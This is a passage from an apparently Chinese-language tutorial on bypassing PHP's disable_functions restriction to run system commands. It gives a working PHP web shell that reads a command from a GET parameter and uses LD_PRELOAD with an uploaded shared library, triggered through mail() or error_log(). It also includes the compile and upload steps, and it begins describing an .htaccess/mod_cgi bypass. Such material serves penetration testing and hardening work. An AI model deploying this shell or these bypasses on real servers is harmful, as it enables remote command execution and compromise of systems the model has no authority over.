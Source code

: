 

```php
<?php
    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";

    putenv("EVIL_CMDLINE=" . $evil_cmdline);

    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);

    mail("", "", "", "");

    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 

    unlink($out_path);
?>
```

首先先编译c脚本为动态链接库

```shell
gcc -fPIC -shared hack.c -o hack.so
```

分别将动态库hack.so文件，php脚本`hack.php`上传到服务器中，再访问`hack.php`脚本文件，并带上参数`cmd`(待执行的命令)，`outpath`(结果重定向文件位置),`sopath`(加载动态链接库的位置)

![](ByPaass_disable_Function.assets/ByPass disable_function_6.png)

#### EXP-3

`error_log + putenv`

 error_log(error,type,destination,headers) ， 当type为1时，服务器就会把error发送到参数 destination 设置的邮件地址 

```php
error_log("test", 1, "", "");
```

![](ByPaass_disable_Function.assets/ByPass disable_function_9.png)



### .htaccess 不止重定向绕过

 在apache的WEB环境中，经常会使用`.htaccess`这个文件来确定某个目录下的URL重写规则， 但是如果.htaccess文件被攻击者修改的话，攻击者就可以利用apache的mod_cgi模块，直接绕过PHP的任何限制，来执行系统命令 

 “任何具有mime类型application/x-httpd-cgi或者被 cgi-script处理器(Apache 1.1或以后版本)处理的文件将被作为CGI脚本对待并由服务器运行, 它的输出将被返回给客户端。通过两种途径使文件成为CGI脚本，或者文件具有已由 AddType指令定义的扩展名，或者文件位于 ScriptAlias目录中。” 

 首先需要满足几个条件，

- 必须是apache环境
- mod_cgi已经启用
- 必须允许.htaccess文件，也就是说在httpd.conf(apache2.conf)中，要注意AllowOverride选项为All，而不是none
- 必须有权限写.htaccess文件
